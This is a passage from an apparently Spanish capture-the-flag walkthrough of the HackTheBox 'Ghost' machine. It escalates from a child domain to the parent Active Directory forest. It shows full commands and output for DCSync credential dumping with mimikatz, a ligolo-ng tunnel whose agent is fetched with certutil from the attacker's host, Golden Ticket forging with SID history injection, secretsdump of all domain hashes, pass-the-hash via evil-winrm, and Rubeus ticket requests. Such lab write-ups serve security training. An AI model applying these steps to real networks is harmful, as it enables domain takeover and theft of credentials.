 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /user:CN=krbtgt,CN=Users,DC=corp,DC=ghost,DC=htb
[DC] 'corp.ghost.htb' will be the domain
[DC] 'PRIMARY.corp.ghost.htb' will be the DC server
[DC] 'CN=krbtgt,CN=Users,DC=corp,DC=ghost,DC=htb' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )_hmac dfel usuari
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 1/31/2024 6:34:01 PM
Object Security ID   : S-1-5-21-2034262909-2733679486-179904498-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 69eb46aa347a8c68edb99be2725403ab
    ntlm- 0: 69eb46aa347a8c68edb99be2725403ab
    lm  - 0: fceff261045c75c4d7f6895de975f6cb

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4acd753922f1e79069fd95d67874be4c

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.GHOST.HTBkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d
      aes128_hmac       (4096) : ea18711cfd69feef0c8efba75bca9235
      des_cbc_md5       (4096) : b3e070025110ce1f

* Primary:Kerberos *
    Default Salt : CORP.GHOST.HTBkrbtgt
    Credentials
      des_cbc_md5       : b3e070025110ce1f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  673e591f1e8395d5bf9069b7ddd084d6
    02  1344e8aade9169b015f2ca4ddf8a04bd
    03  021a6b424b5372ef3511673b04647862
    04  673e591f1e8395d5bf9069b7ddd084d6
    05  1344e8aade9169b015f2ca4ddf8a04bd
    06  122def4643832d604a97c9c02e29cb38
    07  673e591f1e8395d5bf9069b7ddd084d6
    08  2526b041b761a9ae973e69ee23d8ab97
    09  2526b041b761a9ae973e69ee23d8ab97
    10  43c410fd94dc2ca31c3d12cd76ea5e5c
    11  b51d328dbb94b922331d54ffd54134d5
    12  2526b041b761a9ae973e69ee23d8ab97
    13  99c658551700bb8b4dbe0503acade3cb
    14  b51d328dbb94b922331d54ffd54134d5
    15  8a1e17a5a2aa32b2120a39ba99881020
    16  8a1e17a5a2aa32b2120a39ba99881020
    17  9ebecd6b439ee2e7847819e54be70d8f
    18  ff83c6eb25c8da26d5332aeeaeae4cb8
    19  2ee6795b19f71e9c5aa2ab2f902a0c55
    20  3722d9593e0e483720a657bcb56526b2
    21  7bdac8f5dfed431bc7232ff1ca6ebb4d
    22  7bdac8f5dfed431bc7232ff1ca6ebb4d
    23  42b46cd4462f0d4c4ae5da7757a2ff90
    24  7648ab0ac431ceada83b321ca468fccf
    25  7648ab0ac431ceada83b321ca468fccf
    26  7af11e3e17a21afd61955ed5a5f52405
    27  9dfbb554b398bdf2e8c51e1b20208c08
    28  49a35ae4b703b7c47b44708fa235c581
    29  8a24eb5a1a3155556064b79149b00211
```

Obtendremos el `Domain SID` del dominio `CORP.GHOST.HTB` a través de `BloodHound`.

<figure><figcaption></figcaption></figure>

También obtendremos el `SID` del grupo `Enterprise Admins` del dominio `GHOST.HTB`.

<figure><figcaption></figcaption></figure>

También podemos elegir otros grupos de alto privilegios que dispongan del permiso de `DCSync` sobre el dominio `GHOST.HTB`.

<figure><figcaption></figcaption></figure>

### Exploiting Network Access with Ligolo-ng to Share corp.ghost.htb

Dado que la red de `CORP.GHOST.HTB` no la tenemos accesible desde la VPN de HTB, lo que deberemos de realizar es compartir esta red mediante herramientas como `ligolo-ng`.

En nuestra Kali, nos montaremos el servidor Proxy a través del siguiente comando.

```bash
❯ /opt/ligolo/proxy -selfcert
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: DB1E783AF04CFDBBC26A8A87A1EDAD3E1AB2DC1B9FD699144B66E86A66DAB6BB 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng »  
```

Realizaremos las siguiente modificaciones, para habilitar la interfaz de `ligolo-ng` en nuestro equipo atacante, y de añadir la ruta correspondiente al `ip route`. Por otro lado, sincronizarmos la hora con el dominio.

```bash
❯ sudo ip tuntap add user kali mode tun ligolo
❯ sudo ip link set ligolo up
❯ sudo ip route add 10.0.0.0/24 dev ligolo
❯ sudo ntpdate -s ghost.htb
```

También deberemos de disponer del `agent.exe` de `ligolo-ng` el cual compartiremos a través de un servidor web.

```bash
❯ ls
 agent.exe   proxy

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo de `PRIMARY` nos descargaremos el binario indicado.

```bash
PS C:\ProgramData> certutil.exe -f -urlcache -split http://10.10.16.7/agent.exe agent.exe
certutil.exe -f -urlcache -split http://10.10.16.7/agent.exe agent.exe
****  Online  ****
  000000  ...
  5f2c00
CertUtil: -URLCache command completed successfully.
```

Realizaremos la conexión del agente con el servidor de `ligolo-ng`.

```bash
PS C:\ProgramData> .\agent.exe -connect 10.10.16.7:11601 -ignore-cert
.\agent.exe -connect 10.10.16.7:11601 -ignore-cert
time="2025-02-07T14:07:26-08:00" level=warning msg="warning, certificate validation disabled"
time="2025-02-07T14:07:26-08:00" level=info msg="Connection established" addr="10.10.16.7:11601"
```

Verificaremos en el servidor Proxy de `ligolo-ng` que se ha detectado una sesión nueva, una vez conectada, ingresaremos el comando `start` para iniciar la compartición de la red.

```bash
/opt/ligolo/proxy -selfcert
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
WARN[0000] TLS Certificate fingerprint for ligolo is: DB1E783AF04CFDBBC26A8A87A1EDAD3E1AB2DC1B9FD699144B66E86A66DAB6BB 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng » INFO[0067] Agent joined.                                 id=31530714-8a8b-4acd-8cfd-765668586137 name="NT AUTHORITY\\SYSTEM@PRIMARY" remote="10.10.11.24:49803"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - NT AUTHORITY\SYSTEM@PRIMARY - 10.10.11.24:49803 - 31530714-8a8b-4acd-8cfd-765668586137
[Agent : NT AUTHORITY\SYSTEM@PRIMARY] » start
[Agent : NT AUTHORITY\SYSTEM@PRIMARY] » INFO[0074] Starting tunnel to NT AUTHORITY\SYSTEM@PRIMARY (31530714-8a8b-4acd-8cfd-765668586137) 
```

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep corp.ghost.htb
10.0.0.10 corp.ghost.htb
```

### Generating Custom Golden Ticket for Administrator in corp.ghost.htb

En este punto, para realizar el `Golden Ticket Attack` deberemos de disponer de los siguientes puntos claves.

* Clave aes256\_hmac del usuario krbtgt --> esta clave nos servirá para generar el Golden Ticket.
* Domain SID --> deberemos de disponer del Domain SID del dominio `CORP.GHOST.HTB`.
* Extra SID --> deberemos de disponer del sid de un grupo de alto privilegio del dominio `GHOST.HTB`.

En este caso, estamos añadiendo el **SID del grupo "Enterprise Admins"** del dominio `GHOST.HTB`, lo que significa que cuando generemos el Golden Ticket en el dominio **corp.ghost.htb**, también dispondremos de permisos en `GHOST.HTB` como si fuéramos miembro de "Enterprise Admins".

#### ¿Para qué sirve esto?

* **Enterprise Admins** es un grupo con privilegios **altos en toda la estructura de dominios**, lo que permite **administrar otros dominios dentro del bosque**.
* Como disponemos una relación de confianza entre **corp.ghost.htb** y `GHOST.HTB`, podemos **movernos lateralmente** y escalar privilegios en `GHOST.HTB`.
* Básicamente, con este **Golden Ticket**, podemosactuar como un **Administrador de Dominio en** `GHOST.HTB`, aunque originalmente solo teníamos acceso en `CORP.GHOST.HTB`.

Realizaremos el `Golden Ticket` y dispondremos del archivo `Administrator.ccache` que utilizaremos para autenticarnos como `Administrator` en el dominio `GHOST.HTB.`

```bash
❯ impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb Administrator 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.ghost.htb/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```

Importaremos el `Administrator.ccache` en la variable `KRB5CCNAME` y verificaremos que el Ticket Granting Ticket (TGT) del usuario `Administrator` es válido.

```bash
❯ export KRB5CCNAME=Administrator.ccache

❯ klist -i
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@CORP.GHOST.HTB

Valid starting     Expires            Service principal
08/02/25 04:14:33  06/02/35 04:14:33  krbtgt/CORP.GHOST.HTB@CORP.GHOST.HTB
	renew until 06/02/35 04:14:33
```

### Dumping Domain Credentials and NTDS Secrets from DC01 in corp.ghost.htb

Una vez dispongamos del TGT del usuario `Administrator`, lo que realizaremos es un `DCSync Attack` para disponer de todos los hashes NTLM del dominio `GHOST.HTB`. Entre los hashes obtenidos, el que nos interesa es el del usuario `Administrator` del dominio `GHOST.HTB`.

```bash
❯ secretsdump.py dc01.ghost.htb -k -no-pass -just-dc-ntlm
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cdb17d5c14ff69e7067cffcc9e470bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0cdb6ae71c3824f2da2815f69485e128:::
kathryn.holland:3602:aad3b435b51404eeaad3b435b51404ee:0adf6114ba230ef8f023eca3c0d1af50:::
cassandra.shelton:3603:aad3b435b51404eeaad3b435b51404ee:96d2251e44e42816314c08b8e1f11b87:::
robert.steeves:3604:aad3b435b51404eeaad3b435b51404ee:7e2e1e1163ff3fa9304ecd8df6f726fe:::
florence.ramirez:3606:aad3b435b51404eeaad3b435b51404ee:29542931896c7e7a9fbca17b0dd8ab6a:::
justin.bradley:3607:aad3b435b51404eeaad3b435b51404ee:a2be8ec65d6b212138cb36422ed32f46:::
arthur.boyd:3608:aad3b435b51404eeaad3b435b51404ee:b5b7f0787f3c07f42958d33518ae19a5:::
beth.clark:3610:aad3b435b51404eeaad3b435b51404ee:1582f51fcd02e2e5316d497f2552bb83:::
charles.gray:3611:aad3b435b51404eeaad3b435b51404ee:d2fe7f2c7484fc550cac49836eabca3d:::
jason.taylor:3612:aad3b435b51404eeaad3b435b51404ee:0159e6bd4326812f9a6c406ea84035e6:::
intranet_principal:3614:aad3b435b51404eeaad3b435b51404ee:e9fac15124e1d927cbd71f851792b04f:::
gitea_temp_principal:3615:aad3b435b51404eeaad3b435b51404ee:2058fa4502750fa5d7ebd874b1ea43a1:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6c3d61860f92e30e8e9744ac5d9783b:::
LINUX-DEV-WS01$:3630:aad3b435b51404eeaad3b435b51404ee:be14220f3b71b34a61d2d516d595555c:::
adfs_gmsa$:4101:aad3b435b51404eeaad3b435b51404ee:0bef79ae4d25b1864570212e33922d14:::
GHOST-CORP$:2101:aad3b435b51404eeaad3b435b51404ee:be0a51897087a382ca0726b2403e6b00:::
[*] Cleaning up...
```

Verificaremos que podemos autenticarnos mediante **PassTheHash** con el hash NTLM del usuario `Administrator`. Una vez verificada la autenticación, nos conectaremos al DC mediante `evil-winrm` y verificaremos la flag de **root.txt**.

```bash
❯ nxc winrm 10.10.11.24 -u 'Administrator' -H '1cdb17d5c14ff69e7067cffcc9e470bd'
WINRM       10.10.11.24     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:ghost.htb)
WINRM       10.10.11.24     5985   DC01             [+] ghost.htb\Administrator:1cdb17d5c14ff69e7067cffcc9e470bd (Pwn3d!)

❯ evil-winrm -i 10.10.11.24 -u 'Administrator' -H '1cdb17d5c14ff69e7067cffcc9e470bd'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
9aa9bfa2************************
```

## Privilege Escalation (Method 2)

### Parent Domain Compromise and SID History Injection Attack

En este ataque, nuestro objetivo es escalar privilegios desde el dominio **CORP.GHOST.HTB** hasta el dominio **GHOST.HTB**, el cual es considerado el dominio padre en la infraestructura de confianza. Para lograrlo, aprovechamos la relación de confianza entre ambos dominios y empleamos el ataque de **SID History Injection**. Este ataque nos permite generar un **Golden Ticket** que incluye privilegios de un grupo de alto nivel en el dominio padre, como **Enterprise Admins**, lo que nos otorga permisos elevados en **GHOST.HTB**, incluso si inicialmente solo tenemos acceso a **CORP.GHOST.HTB**.

A lo largo de esta escalada, veremos cómo extraemos el **Domain SID** de ambos dominios, generamos el Golden Ticket y finalmente solicitamos un Ticket de Servicio (TGS) para obtener acceso a los recursos del dominio padre. Al final de este proceso, podremos actuar como administradores en **GHOST.HTB**, obteniendo acceso completo a los sistemas y datos que forman parte de ese dominio.

Desde `BloodHound`, verificamos que el dominio `CORP.GHOST.HTB` y `GHOST.HTB` tienen relación de confianza bidireccional.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Ejecutamos el siguiente comando para extraer la información de confianza entre dominios, obteniendo el **Domain SID** de `CORP.GHOST.HTB`:

```powershell
C:\ProgramData>mk.exe "lsadump::trust /patch" exit
mk.exe "lsadump::trust /patch" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::trust /patch

Current domain: CORP.GHOST.HTB (GHOST-CORP / S-1-5-21-2034262909-2733679486-179904498)

Domain: GHOST.HTB (GHOST / S-1-5-21-4084500788-938703357-3654145966)
 [  In ] CORP.GHOST.HTB -> GHOST.HTB
    * 2/7/2025 9:45:55 AM - CLEAR   - 75 85 47 04 86 07 63 03 f4 b5 a6 8f cb 64 a7 7a e5 30 5a 0c 90 5e 03 76 18 ce 79 c9 ce 47 d2 89 a4 55 02 64 6e be 3a c6 92 28 a6 76 4f d2 ea eb 25 72 82 c4 c8 e5 55 55 7b 29 b0 d3 a0 fc 9a 1b 3d c7 98 a3 1d 25 05 49 39 de 68 35 b4 ef e1 38 fa 81 70 0c 51 ad d1 6a 38 a4 5e e0 cf 61 15 98 2a eb d6 3c 5f 18 fa 2e 69 58 7c 9b 25 d6 5d 32 1d f9 c1 5b c4 76 f2 06 0a 46 44 fa 6e 24 a1 84 a8 89 c4 11 eb 75 5b b8 67 64 74 fa 45 ef 4d 60 4d 2d 75 20 35 cb 68 89 ee 2e ee 40 30 5c 3d 7c cc a3 cf fa 66 a0 71 d4 67 eb 9e b2 43 e9 61 d5 68 73 d7 45 9d a9 8d b8 07 6b f0 08 87 14 77 b0 c9 d9 51 7e 43 c3 12 1e a9 d3 8c 7d d0 68 a8 d0 70 8a c0 01 a9 43 43 62 c4 db bd 8f 4b 6d 30 3f 24 9d 66 4c 69 ff 5e 11 36 88 5f 0b aa d2 ee 13 
	* aes256_hmac       2ebffec8e7479bcd49756acc82db80671cfffcac207232d65b2052c60dfb1bf7
	* aes128_hmac       7a23ca1cb52263c5cae9baf7a0f09e42
	* rc4_hmac_nt       6d6f0fb56ad234f6b85ae8be3ae6e2a3

 [ Out ] GHOST.HTB -> CORP.GHOST.HTB
    * 2/7/2025 9:45:13 AM - CLEAR   - 20 d1 cb e4 cf 41 b8 3a a2 bd 83 13 a7 e8 79 07 64 37 29 e5 45 1e 15 98 04 03 40 16 f0 c8 5a 73 f2 7e 09 31 47 48 11 29 40 73 5f 01 80 2c 9b 2d a4 d6 ed 42 00 aa c1 0e fd 18 d0 71 b9 ce f6 60 2b 54 b0 96 ac ad d4 6c 13 c1 cd 09 68 60 85 dc bc 45 a1 2a 75 49 d4 8b 53 aa 72 c3 71 7b c5 f5 e8 52 07 68 52 17 e0 8d c9 cc 16 64 e5 9b b5 7f ee 92 49 af fc df bd 69 14 a8 3b c6 71 ba 25 66 f0 fd 05 4d 3c 01 74 e2 86 d1 b3 3c 41 51 1d 77 6a 7e 47 4e 6a f8 16 a8 0f d1 a2 06 51 5e 78 e1 fb 81 b6 fd d9 0d ae c0 c8 dd b1 42 b5 2b ec 34 dd dc 39 dc ea 8d 90 3c d7 d3 5b fd 2f 73 4b 1c e7 c3 55 93 79 ed 06 e5 1c 92 67 1b 75 7a 27 27 75 b0 b2 00 c4 18 e5 a9 c9 01 9f 33 7c f1 bf 03 a5 ce 10 2c cc cc a3 2b d6 8b 2b 88 e4 c9 6d d2 
	* aes256_hmac       eb67c47eb93e1e6713b7a891e333e4e57f020a494e1f638ef226adb7023cfdd4
	* aes128_hmac       98a5cbb5490bf6d30a0f9b615ed15674
	* rc4_hmac_nt       be0a51897087a382ca0726b2403e6b00

 [ In-1] CORP.GHOST.HTB -> GHOST.HTB
    * 7/22/2024 8:21:26 AM - CLEAR   - de 0b 64 63 58 9d ed e1 bc 36 c0 50 7c 4d 41 6d bd 82 72 e9 98 9b 13 58 b8 68 f1 94 8c ca 12 50 9b af 45 7d 0a 4d 4e 40 e2 7d 12 59 72 2f 87 22 64 c8 fa b2 96 8d aa c1 f1 17 a3 e7 aa 2b ec 87 b5 59 57 71 6f 33 87 4c e0 8a 8b 03 38 a2 71 b6 d5 0b 61 fd 7e 14 3e 46 16 d9 29 d8 f6 f9 05 69 3f b7 4f c1 28 0b 7e ec e5 46 ab 7e e8 2c 8b be 70 b5 d9 6c 96 1b fb 56 33 bc 41 15 b5 73 42 25 54 15 4b b6 fc 55 07 81 60 4a 6b 4c 22 a2 55 61 e5 91 e6 75 e3 62 d4 9a 37 77 bd 63 90 8e 6a 2a 2c c6 88 8f 57 44 7a 9e 35 aa e5 6a 2b 5f c8 0a 8c 4f cb bd af c9 60 59 ff 15 d9 fd cf 27 93 9f f7 19 9e 91 2b 38 d7 0e ec c9 43 e6 8c 3b 60 02 5f b7 c3 c1 67 c2 6b 44 db 1f 9c f7 72 2f 3a 54 6e 62 02 c9 46 d1 b7 3d 26 54 d0 4f 35 65 a8 3f 
	* aes256_hmac       de2e49c70945c0cb0dec99c93587de84f0b048843b8e295c6da720ba85545ffe
	* aes128_hmac       b55ca148bc95f95b8cb72f67661e1a08
	* rc4_hmac_nt       0b0124f5d6c07ad530d6bf6a6404fdaa

 [Out-1] GHOST.HTB -> CORP.GHOST.HTB
    * 2/7/2025 9:45:13 AM - CLEAR   - 78 10 13 24 91 0a 57 22 71 4e f6 ef 53 6a d8 54 02 97 63 0b 78 28 41 b7 5e 5e e6 b7 50 03 35 96 f2 e5 8b a3 c1 21 fa f6 01 f5 5f 7b 38 98 bc 8b 2b f5 3e 91 ce 8a 01 06 59 c0 9b 19 8c d8 d3 1a 17 9f d4 f1 b2 cb a0 49 f6 7f 97 f7 a0 79 63 bb 20 4a bf a3 d9 dd b1 13 20 c6 a0 84 a2 ea 65 79 6a b6 d3 db 17 e9 be b8 c1 35 57 38 c8 3b a6 6a 90 32 66 ba 0e bd fd 67 bf f4 e9 3c f2 e5 37 94 84 d6 c0 71 d3 42 85 ef 4e 94 ac 56 0f df 05 77 1b 74 57 4f a2 07 07 a1 d6 8e ee a1 cd 6a c0 4c d9 3f 16 0a fa 47 07 45 45 ad b5 6d e4 01 b1 e4 bf 76 c2 8e 5b 4e f4 04 ed 08 e4 e0 7e d8 18 5a f5 df 07 c3 97 3d 7e 6d 28 1e c1 1a ec 6d 06 83 0f 27 ea c8 00 af 92 c9 1f f6 50 45 f5 c1 bb 4a 09 bb d6 df 6b cf d6 fe fe d8 44 bb 19 90 46 0b 
	* aes256_hmac       b50449e019e0a55f9227fb2e830b044e9e9ad9952e2249e5de29f2027cd8f40d
	* aes128_hmac       81f4c2f21a640eed29861d71a619b4bb
	* rc4_hmac_nt       ea4e9954536eb29091fc96bbce83be23


mimikatz(commandline) # exit
Bye!
```

Reviaremos desde `BloodHound` cual es el `SID` del grupo `ENTERPRISE ADMINS` del dominio `GHOST.HTB`.

<figure><figcaption></figcaption></figure>

Usamos el hash NTLM del usuario **`krbtgt`** de `CORP.GHOST.HTB` para generar un **TGT** que incluya el **Enterprise Admins** de **GHOST.HTB** en su SID History. Esto nos permitirá operar con privilegios elevados en el dominio padre.

* **/rc4:** Hash NTLM del usuario **krbtgt** de **CORP.GHOST.HTB**
* **/sid:** SID del dominio **CORP.GHOST.HTB**
* **Extra SID:** Añadimos el SID del grupo **Enterprise Admins** de **GHOST.HTB**, lo que nos otorga privilegios elevados en el dominio padre

```powershell
C:\ProgramData>mk.exe "kerberos::golden /user:Administrator /domain:corp.ghost.htb /rc4:6d6f0fb56ad234f6b85ae8be3ae6e2a3 /sid:S-1-5-21-2034262909-2733679486-179904498 S-1-5-21-4084500788-938703357-3654145966-519 /target:ghost.htb /service:krbtgt /ticket:administrator.kirbi" exit
mk.exe "kerberos::golden /user:Administrator /domain:corp.ghost.htb /rc4:6d6f0fb56ad234f6b85ae8be3ae6e2a3 /sid:S-1-5-21-2034262909-2733679486-179904498 S-1-5-21-4084500788-938703357-3654145966-519 /target:ghost.htb /service:krbtgt /ticket:administrator.kirbi" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # kerberos::golden /user:Administrator /domain:corp.ghost.htb /rc4:6d6f0fb56ad234f6b85ae8be3ae6e2a3 /sid:S-1-5-21-2034262909-2733679486-179904498 S-1-5-21-4084500788-938703357-3654145966-519 /target:ghost.htb /service:krbtgt /ticket:administrator.kirbi
User      : Administrator
Domain    : corp.ghost.htb (CORP)
SID       : S-1-5-21-2034262909-2733679486-179904498
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 6d6f0fb56ad234f6b85ae8be3ae6e2a3 - rc4_hmac_nt      
Service   : krbtgt
Target    : ghost.htb
Lifetime  : 2/7/2025 6:15:48 PM ; 2/5/2035 6:15:48 PM ; 2/5/2035 6:15:48 PM
-> Ticket : administrator.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

mimikatz(commandline) # exit
Bye!
```

El siguiente paso será disponer del binario de `Rubeus.exe` y compartirlo a través de un servidor web.

```bash
❯ ls -l Rubeus.exe
.rw-r--r-- kali kali 436 KB Fri Feb  7 23:35:07 2025  Rubeus.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo de `PRIMARY` nos descargaremos el binario indicado.

```powershell
PS C:\ProgramData> certutil.exe -f -urlcache -split http://10.10.16.7/Rubeus.exe Rubeus.exe
certutil.exe -f -urlcache -split http://10.10.16.7/Rubeus.exe Rubeus.exe
****  Online  ****
  000000  ...
  06d200
CertUtil: -URLCache command completed successfully.
```

Usamos **Rubeus** para solicitar un **TGS** con el ticket generado, permitiéndonos autenticarnos en el DC01 de **GHOST.HTB**:

* **/ticket:** Especificamos el ticket **administrator.kirbi** generado anteriormente
* **/ptt:** Inyectamos el ticket en la sesión actual

```powershell
C:\ProgramData>Rubeus.exe asktgs /dc:dc01.ghost.htb /service:cifs/dc01.ghost.htb /ticket:administrator.kirbi /nowrap /ptt
Rubeus.exe asktgs /dc:dc01.ghost.htb /service:cifs/dc01.ghost.htb /ticket:administrator.kirbi /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc01.ghost.htb'
[*] Using domain controller: dc01.ghost.htb (10.0.0.254)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIEqjCCBKagAwIBBaEDAgEWooIDqzCCA6dhggOjMIIDn6ADAgEFoQsbCUdIT1NULkhUQqIhMB+gAwIBAqEYMBYbBGNpZnMbDmRjMDEuZ2hvc3QuaHRio4IDZjCCA2KgAwIBEqEDAgEEooIDVASCA1D8P/LOkCpz6xC+IYry09nSmlLeSbq5V7JWv50pNznNaBoh1J5D9dPKM2m49bK/MrP6Rvy9ps66G2BgMHnCnvs8aARRJqmVGMF8MkX6ec5MZ7jWIdTzcy7B1CZFB89SYNIJXYt5DHXlCrJLslKFSoMgcUjvG+trMzifNZfOhBPEYeVUbtVGSAT93e/5ffQeCHdrXYc5muwsDBPP3lh/xHwVCO3bRVqb/JpER5KedgGvdb4+EcrtnzjnIQIOEhhX7LYZ8KZM+FsMypUZYr3RInJc1yBAIbOPKQ3/Bwxz5WfmH8ICyybz6M8VI0+fFBQ1ko/Hu5EfHrHLjdcJAEH2PgUAfSKDLoEouUz9PP7vkAdoTJ9mqi0w6R4Rz0HSXK87dN6gO/NDejtEq8Rh3R2DiFI9e1vUuhqtk49I6o8KNLs8V7bSH3BCbHtNCaWasjDedSIr2d0/seNdTM1uaI7WFvcCbtOG6WsPNI3NKxs/w6O0Wyv2tjMqA/Ydp3+wexdYU0TOUpIJY8XfnEnsBlUYwWaYIbMwrFA7mcKnQVgrpdmV0ZNTNei3n09GKNbgx/1Wo/5eK6ewLJ904o5OU+OWpLbH+nAAO6X3N+/TY1BhdZK0AC1oNCUuwbHcq6iLfGzKw7vdTrmVdHIU1IsODZBgwqFm8mk8+CD2wtH4w2TMv9gs5gDwxbfrTaICe0OS6udyKHwofzNWpsKpDqG/WSgct18bO0cc+AF3dIt3nM7C1i0TnnCtn48wVpIJNZFptE2PSynQvn0gd6ci8Uq0VtscLNBR24ergdXrqdc7Bbr/BBaxVxikv/FjGo5jh0c4ygcL2B2wpqUjJzP4wK7JRcSvRM6E2knSY0+cewv4knGjnnon3q/te1ee2uiASFZ0gRBMt1KCbrnHdbA2m2jf/GSnIaHkIJf+ia2DPrOnYKqRQBJDn2gm7nkep+jdkqYWnIMLSD0av29NGB/sRcd8bt8c0oho3xHvfYwwEmNDbkbZgJxNtMfvfZ2zYRrkL8vhWg7scTLqtd5FgJPYtfRA2EFhCwK9BaXhvvh70dwqsjfRRxOQWDnPoRPe+c9/awl3iyMbTkb0bLsal7M7Jy9f3Imtyc7iFHS+dZ4XnjqOF34Em3SJa6OB6jCB56ADAgEAooHfBIHcfYHZMIHWoIHTMIHQMIHNoCswKaADAgESoSIEIFwo093UuuE6f87W2Cu/YZpafwX1aFthHdmMJqJDkjFioRAbDmNvcnAuZ2hvc3QuaHRiohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKUAAKURGA8yMDI1MDIwODAyMTczOFqmERgPMjAyNTAyMDgxMjE3MzhapxEYDzIwMjUwMjE1MDIxNzM4WqgLGwlHSE9TVC5IVEKpITAfoAMCAQKhGDAWGwRjaWZzGw5kYzAxLmdob3N0Lmh0Yg==

  ServiceName              :  cifs/dc01.ghost.htb
  ServiceRealm             :  GHOST.HTB
  UserName                 :  Administrator
